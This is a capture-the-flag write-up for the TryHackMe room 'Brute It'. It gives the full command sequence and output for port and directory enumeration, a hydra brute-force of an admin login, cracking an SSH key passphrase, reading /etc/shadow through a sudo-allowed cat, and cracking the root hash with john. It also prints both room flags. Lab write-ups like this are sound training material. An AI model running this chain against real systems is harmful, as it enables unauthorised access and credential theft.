



# Brute It

> Platform: TryHackMe
>
> Created by: [ReddyyZ](https://tryhackme.com/p/ReddyyZ)
>
> Difficulty: Easy

## Enumeration

First of all, we will begin with the **Nmap**. Actually, you can just use a normal Nmap command, but here is my preferences.
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brute It]
└─$ nmap -sVSC <TARGET-IP> -T4 -Pn -n -vvv -oA bruteitscan
Nmap scan report for <TARGET-IP>
Host is up, received user-set (0.26s latency).
Scanned at 2025-08-28 19:41:37 +08 for 19s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDddsKhK0u67HTcGJWVdm5ukT2hHzo8pDwrqJmqffotf3+4uTESTdRdr2UgZhPD5ZAvVubybTc5HSVOA+CQ6eWzlmX1LDU3lsxiWEE1RF9uOVk3Kimdxp/DI8ILcJJdQlq9xywZvDZ5wwH+zxGB+mkq1i8OQuUR+0itCWembOAj1NvF4DIplYfNbbcw1qPvZgo0dA+WhPLMchn/S8T5JMFDEvV4TzhVVJM26wfBi4o0nslL9MhM74XGLvafSa5aG+CL+xrtp6oJY2wPdCSQIFd9MVVJzCYuEJ1k4oLMU1zDhANaSiScpEVpfJ4HqcdW+zFq2YAhD1a8CsAxXfMoWowd
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMPHLT8mfzU6W6p9tclAb0wb1hYKmdoAKKAqjLG8JrBEUZdFSBnCj8VOeaEuT6anMLidmNO06RAokva3MnWGoys=
|   256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEoIlLiatGPnlVn/NBlNWJziqMNrvbNTI5+JbhICdZ6/
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

From the **Nmap** results, looks like the port <code>80</code> and port <code>22</code> are open.


Now try to **enumerate the web directory** of the page **using GoBuster**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/bruteit]
└─$ gobuster dir -u http://<TARGET-IP>/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<TARGET-IP>/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/admin                (Status: 301) [Size: 314] [--> http://<TARGET-IP>/admin/]
/index.html           (Status: 200) [Size: 10918]
/server-status        (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

When going to the <code>/admin</code> page, we found out that the page shows us that we need to login before continuing to the page.



Viewing the page source will reveal the name of the user that we need to brute-force for the password.

## Exploitation

We need to try **brute-force the password** for the user:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/bruteit]
└─$ hydra -l <USER> -P /usr/share/wordlists/rockyou.txt <TARGET-IP> http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-28 20:08:37
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://<TARGET-IP>:80/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid
[80][http-post-form] host: <TARGET-IP>   login: <USERNAME>   password: <USER-PASS>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-28 20:09:22
```

Now, try to login to the page. We found out that, there is a **RSA private key** file that we can retrieved:



We need to crack the key to get the passphrase to be used when SSH to the server:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brute It]
└─$ ssh2john bruteitid_rsa > ssh.key              
                                                                                             
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brute It]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt ssh.key      
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<PASSPHRASE>       (bruteitid_rsa)     
1g 0:00:00:00 DONE (2025-08-28 20:14) 50.00g/s 3632Kp/s 3632Kc/s 3632KC/s saloni..rashon
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

With the cracked passphrase, now we can SSH to the server:
```
┌──(kali㉿kali)-[~/.ssh]
└─$ ssh john@<TARGET-IP> -i bruteit_id_rsa 
The authenticity of host '<TARGET-IP> (<TARGET-IP>)' can't be established.
ED25519 key fingerprint is SHA256:kuN3XXc+oPQAtiO0Gaw6lCV2oGx+hdAnqsj/7yfrGnM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '<TARGET-IP>' (ED25519) to the list of known hosts.
Enter passphrase for key 'bruteit_id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Aug 28 12:17:58 UTC 2025

  System load:  0.06               Processes:           109
  Usage of /:   25.7% of 19.56GB   Users logged in:     0
  Memory usage: 22%                IP address for ens5: <TARGET-IP>
  Swap usage:   0%


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from <IP>
john@bruteit:~$
```

<details>
<summary><b>🏳️user.txt</b></summary>
<b>THM{a_password_is_not_a_barrier}</b>
</details><br>

## Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to spawn a privilege shell.

First we try to check with the **sudo permission** first
```
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

We can try use the cat to read file that we are not able to read as normal user. From [GTFOBins | cat](https://gtfobins.github.io/gtfobins/cat/), we can try read the <code>/etc/shadow</code> file to get the root password hash:
```
john@bruteit:~$ sudo cat /etc/shadow
root:<PASSWORD-HASH>:18490:0:99999:7:::
daemon:*:18295:0:99999:7:::
.
.
.

john@bruteit:~$
```

Also retrieve the <code>/etc/passwd</code> file to brute-force the root password:
```
john@bruteit:~$ sudo cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
.
.
.

john@bruteit:~$
```

Then, retrieve both files and crack the hash:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brute It]
└─$ echo 'root:<PASSWORD-HASH>:18490:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
.
.
. > shadow.txt

┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brute It]
└─$ echo 'root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
.
.
. > passwd.txt

┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brute It]
└─$ unshadow passwd.txt shadow.txt > passwords.txt
                                                                                             
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Brute It]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<ROOT-PASSWORD>         (root)     
```

Now, just change the current user to root to get the privileged shell:
```
john@bruteit:~$ su -
Password: 
root@bruteit:~#
```

<details>
<summary><b>🏳️root.txt</b></summary>
<b>THM{pr1v1l3g3_3sc4l4t10n}</b>
</details><br>